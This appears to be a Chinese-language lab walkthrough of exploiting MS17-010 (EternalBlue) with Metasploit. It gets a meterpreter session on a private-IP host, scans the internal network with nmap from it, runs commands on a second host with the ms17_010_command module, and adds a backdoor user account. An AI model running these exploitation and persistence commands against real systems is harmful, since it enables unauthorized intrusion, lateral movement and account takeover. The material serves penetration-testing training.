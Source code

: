 ### 永恒之蓝攻击

使用永恒之蓝攻击模块

```text
use exploit/windows/smb/ms17_010_eternalblue
```

设置攻击载荷

```text
set payload
```

设置目标主机

```text
set rhosts 192.168.52.143
```

​![image](http://127.0.0.1:6806/assets/image-20231213212105-ybx9s4h.png)​

可以看到最后弹出meterpreter

### 利用获取的服务器攻击其他主机

利用服务器上的nmap扫描内网主机

​![image](http://127.0.0.1:6806/assets/image-20231213212647-5npmxy5.png)​

```text
shell nmap --script=vuln 192.168.52.141
```

​![image](http://127.0.0.1:6806/assets/image-20231213213601-0h5u1rw.png)​

可以看到目标机可能存在ms17-010漏洞和MS08-067漏洞

​![image](http://127.0.0.1:6806/assets/image-20231213213631-ag140tu.png)​

试一下windows/smb/ms17_010_eternalblue模块，发现目标主机是32位的，换一个模块

​![image](http://127.0.0.1:6806/assets/image-20231213214111-twogz4h.png)​

```text
use auxiliary/admin/smb/ms17_010_command 
set COMMAND net user
set RHOST 192.168.52.141
exploit
```

攻击成功

​![image](http://127.0.0.1:6806/assets/image-20231213214222-vev4sf7.png)​

尝试添加用户

```text
set COMMAND net user xxxgg Ab262524! /add
exploit
```

